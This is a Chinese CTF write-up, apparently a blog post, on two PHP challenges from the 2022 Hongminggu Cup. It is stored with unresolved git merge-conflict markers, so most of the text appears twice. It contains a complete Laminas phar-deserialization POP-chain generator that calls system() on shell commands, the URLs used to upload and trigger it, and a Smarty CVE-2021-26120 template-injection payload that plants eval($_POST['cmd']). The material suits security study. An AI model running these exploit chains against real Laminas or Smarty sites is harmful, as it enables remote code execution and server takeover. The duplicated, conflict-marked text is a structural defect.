<<<<<<< HEAD
# PHP赛题学习—2022红明谷杯

Author: H3rmesk1t

Data: 2022.03.22

# Fan website
## 题目分析
访问`题目链接/www.zip`拿到题目源码, 由于题目给了题目内容是`Laminas组件开发`, 搜索后找到相关利用文章[Zend-Framework-unserialize-pop-chain](https://www.mrkaixin.top/posts/7e504798/#2-Laminas%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE). 简单跟一下题目中的链子, 最终的目的是要实现文件写入, 接着利用`phar`协议来触发反序列化, 先全局搜索反序列化漏洞的起始点`__destruct()`.

<div align=center></div>

跟进`laminas\laminas-log\src\Logger.php`, 此处的`$this->writers`是可控的, 接着需要找一个实现了`shutdown`方法的类, 分析可用方法后跟进`laminas\laminas-log\src\Writer\Mail.php`.

<div align=center></div>

<div align=center></div>

<div align=center></div>

由于`setBody`方法并没有在其他函数中进行调用, 因此可以利用这里触发`__call`方法, 跟进到`laminas\laminas-view\src\Renderer\PhpRenderer.php`, 这里会进一步调用`plugin`方法, 当设置了`$__helpers`时, 会调用`$this->__helpers->get`方法, 这里将其赋值为`laminas\laminas-view\src\Resolver\TemplateMapResolver.php`.

<div align=center></div>

跟进`laminas\laminas-view\src\Resolver\TemplateMapResolver.php`中的`get`方法, 这里利用`$this->map[$name]`来将前面的`setBody`赋值为`system`等命令执行函数, 从而回到前面的`__call`方法继续调用`call_user_func_array`来执行命令.

<div align=center></div>

在题目中给了图片上传的路由和删除的路由, 并且在删除方法中会调用`unlink`方法, 利用这里正好来触发`phar`协议.

<div align=center></div>

## 漏洞利用
需要注意的是在上传路由方法中需要绕过`__HALT_COMPILER`特征检测, 并且会对文件后缀名进行检测, 因此还需要把`phar`文件后缀改为`png`等.

```php
<?php
	namespace Laminas\Log {
		
		class Logger {
			
			protected $writers;
			function __construct(){
				$this->writers = [new \Laminas\Log\Writer\Mail()];
			}
		}
	}

	namespace Laminas\Log\Writer {
		
		abstract class AbstractWriter {}
		
		class Mail extends AbstractWriter {

			protected $eventsToMail = ["ls /; cat flag"];
			protected $subjectPrependText = null;
			protected $mail;
			function __construct(){
				$this->mail = new \Laminas\View\Renderer\PhpRenderer();
			}
		}
	}

	namespace Laminas\View\Renderer {

		class PhpRenderer {

			private $__helpers;
			function __construct() {

				$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
			}
		}
	}

	namespace Laminas\View\Resolver{

		class TemplateMapResolver{

			protected $map = ["setBody"=>"system"];
		}
	}


	namespace {

	    $phar = new Phar("phar.phar");
	    $phar->startBuffering();
	    $phar->setStub("<?php __HALT_COMPILER(); ?>");
	    $object = new \Laminas\Log\Logger();
	    $phar->setMetadata($object);
	    $phar->addFromString("h3rmesk1t.txt", "h3rmesk1t");
	    $phar->stopBuffering();
	}
?>
```

接着利用修改后的文件, 访问`http://eci-2zehsthmgb5z68m80j4g.cloudeci1.ichunqiu.com/album/imgupload`上传文件, 接着访问`http://eci-2zehsthmgb5z68m80j4g.cloudeci1.ichunqiu.com/album/imgdelete`, 输入`/var/www/public/img/59901a7488e9011cd161f102d9430895.png`触发漏洞.

<div align=center></div>

# Smarty_calculator
## 题目分析
依旧还是访问`题目链接/www.zip`拿到题目源码, 添加`Cookie: login=1`后`POST {$smarty.version}`, 成功拿到版本信息, 由于题目说了`开发者自己修改了模板的规则`, 这里拉取`Smarty 3.1.39`进行比较, 发现正则规则被修改了.

<div align=center></div>

<div align=center></div>

<div align=center></div>

搜索题目信息后发现存在可以利用的漏洞, `Smarty_Internal_Runtime_TplFunction`沙箱逃逸`PHP`代码注入漏洞(CVE-2021-26120), 参考[GitHub Update](https://github.com/smarty-php/smarty/commit/290aee6db33403a4b9426b572b79a990232b31dd).

由于`Smarty`在编译模板语法时, `Smarty_Internal_Runtime_TplFunction`类在定义时不能正确过滤`name`属性`tplFunctions`, 导致攻击者可以通过注入`Payload`来远程执行代码.

<div align=center></div>

但是这里和这个漏洞又不太一样, 需要进行绕过, 先简单`POST`一个数据过去`data={function name='(){};'}{/function}`

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:35:26
  from 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ecbe814d21_96774455',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ecbe814d21_96774455 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\cca2ce857d642a4c0875c01a8508fdfe6fb1889f_0.string.php',
    'uid' => 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f',
    'call_name' => 'smarty_template_function_(){};_18679747696239ecbe74eee5_05027020',
  ),
));
}
/* smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
if (!function_exists('smarty_template_function_(){};_18679747696239ecbe74eee5_05027020')) {
function smarty_template_function_(){};_18679747696239ecbe74eee5_05027020(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
}
```

根据生成的内容格式, 不难构造恶意的绕过`Payload`: `data={function name='(){};/*";}/*'}*/eval($_POST['cmd']);"}{/function}&cmd=phpinfo();`. 可以看到生成的缓存模板函数中成功完美闭合了.

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:45:24
  from 'c16d407db4adb2d55529d8d5521a1a1585555d84' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ef14a8b872_01812683',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ef14a8b872_01812683 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};/*";}/*' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\c16d407db4adb2d55529d8d5521a1a1585555d84_0.string.php',
    'uid' => 'c16d407db4adb2d55529d8d5521a1a1585555d84',
    'call_name' => 'smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413',
  ),
));
}
/* smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
if (!function_exists('smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413')) {
function smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
?>
*/eval($_POST['cmd']);"}<?php
}}
/*/ smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
}
```

=======
# PHP赛题学习—2022红明谷杯

Author: H3rmesk1t

Data: 2022.03.22

# Fan website
## 题目分析
访问`题目链接/www.zip`拿到题目源码, 由于题目给了题目内容是`Laminas组件开发`, 搜索后找到相关利用文章[Zend-Framework-unserialize-pop-chain](https://www.mrkaixin.top/posts/7e504798/#2-Laminas%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE). 简单跟一下题目中的链子, 最终的目的是要实现文件写入, 接着利用`phar`协议来触发反序列化, 先全局搜索反序列化漏洞的起始点`__destruct()`.

<div align=center></div>

跟进`laminas\laminas-log\src\Logger.php`, 此处的`$this->writers`是可控的, 接着需要找一个实现了`shutdown`方法的类, 分析可用方法后跟进`laminas\laminas-log\src\Writer\Mail.php`.

<div align=center></div>

<div align=center></div>

<div align=center></div>

由于`setBody`方法并没有在其他函数中进行调用, 因此可以利用这里触发`__call`方法, 跟进到`laminas\laminas-view\src\Renderer\PhpRenderer.php`, 这里会进一步调用`plugin`方法, 当设置了`$__helpers`时, 会调用`$this->__helpers->get`方法, 这里将其赋值为`laminas\laminas-view\src\Resolver\TemplateMapResolver.php`.

<div align=center></div>

跟进`laminas\laminas-view\src\Resolver\TemplateMapResolver.php`中的`get`方法, 这里利用`$this->map[$name]`来将前面的`setBody`赋值为`system`等命令执行函数, 从而回到前面的`__call`方法继续调用`call_user_func_array`来执行命令.

<div align=center></div>

在题目中给了图片上传的路由和删除的路由, 并且在删除方法中会调用`unlink`方法, 利用这里正好来触发`phar`协议.

<div align=center></div>

## 漏洞利用
需要注意的是在上传路由方法中需要绕过`__HALT_COMPILER`特征检测, 并且会对文件后缀名进行检测, 因此还需要把`phar`文件后缀改为`png`等.

```php
<?php
	namespace Laminas\Log {
		
		class Logger {
			
			protected $writers;
			function __construct(){
				$this->writers = [new \Laminas\Log\Writer\Mail()];
			}
		}
	}

	namespace Laminas\Log\Writer {
		
		abstract class AbstractWriter {}
		
		class Mail extends AbstractWriter {

			protected $eventsToMail = ["ls /; cat flag"];
			protected $subjectPrependText = null;
			protected $mail;
			function __construct(){
				$this->mail = new \Laminas\View\Renderer\PhpRenderer();
			}
		}
	}

	namespace Laminas\View\Renderer {

		class PhpRenderer {

			private $__helpers;
			function __construct() {

				$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
			}
		}
	}

	namespace Laminas\View\Resolver{

		class TemplateMapResolver{

			protected $map = ["setBody"=>"system"];
		}
	}


	namespace {

	    $phar = new Phar("phar.phar");
	    $phar->startBuffering();
	    $phar->setStub("<?php __HALT_COMPILER(); ?>");
	    $object = new \Laminas\Log\Logger();
	    $phar->setMetadata($object);
	    $phar->addFromString("h3rmesk1t.txt", "h3rmesk1t");
	    $phar->stopBuffering();
	}
?>
```

接着利用修改后的文件, 访问`http://eci-2zehsthmgb5z68m80j4g.cloudeci1.ichunqiu.com/album/imgupload`上传文件, 接着访问`http://eci-2zehsthmgb5z68m80j4g.cloudeci1.ichunqiu.com/album/imgdelete`, 输入`/var/www/public/img/59901a7488e9011cd161f102d9430895.png`触发漏洞.

<div align=center></div>

# Smarty_calculator
## 题目分析
依旧还是访问`题目链接/www.zip`拿到题目源码, 添加`Cookie: login=1`后`POST {$smarty.version}`, 成功拿到版本信息, 由于题目说了`开发者自己修改了模板的规则`, 这里拉取`Smarty 3.1.39`进行比较, 发现正则规则被修改了.

<div align=center></div>

<div align=center></div>

<div align=center></div>

搜索题目信息后发现存在可以利用的漏洞, `Smarty_Internal_Runtime_TplFunction`沙箱逃逸`PHP`代码注入漏洞(CVE-2021-26120), 参考[GitHub Update](https://github.com/smarty-php/smarty/commit/290aee6db33403a4b9426b572b79a990232b31dd).

由于`Smarty`在编译模板语法时, `Smarty_Internal_Runtime_TplFunction`类在定义时不能正确过滤`name`属性`tplFunctions`, 导致攻击者可以通过注入`Payload`来远程执行代码.

<div align=center></div>

但是这里和这个漏洞又不太一样, 需要进行绕过, 先简单`POST`一个数据过去`data={function name='(){};'}{/function}`

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:35:26
  from 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ecbe814d21_96774455',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ecbe814d21_96774455 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\cca2ce857d642a4c0875c01a8508fdfe6fb1889f_0.string.php',
    'uid' => 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f',
    'call_name' => 'smarty_template_function_(){};_18679747696239ecbe74eee5_05027020',
  ),
));
}
/* smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
if (!function_exists('smarty_template_function_(){};_18679747696239ecbe74eee5_05027020')) {
function smarty_template_function_(){};_18679747696239ecbe74eee5_05027020(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_(){};_18679747696239ecbe74eee5_05027020 */
}
```

根据生成的内容格式, 不难构造恶意的绕过`Payload`: `data={function name='(){};/*";}/*'}*/eval($_POST['cmd']);"}{/function}&cmd=phpinfo();`. 可以看到生成的缓存模板函数中成功完美闭合了.

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:45:24
  from 'c16d407db4adb2d55529d8d5521a1a1585555d84' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ef14a8b872_01812683',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ef14a8b872_01812683 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};/*";}/*' => 
  array (
    'compiled_filepath' => 'C:\\Tools\\phpstudy_pro\\WWW\\html\\templates_c\\c16d407db4adb2d55529d8d5521a1a1585555d84_0.string.php',
    'uid' => 'c16d407db4adb2d55529d8d5521a1a1585555d84',
    'call_name' => 'smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413',
  ),
));
}
/* smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
if (!function_exists('smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413')) {
function smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413(Smarty_Internal_Template $_smarty_tpl,$params) {
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
?>
*/eval($_POST['cmd']);"}<?php
}}
/*/ smarty_template_function_(){};/*";}/*_12721005126239ef14989679_11892413 */
}
```

>>>>>>> 8cafef977134ca4058458a57910f051e339a9dc1
<div align=center></div>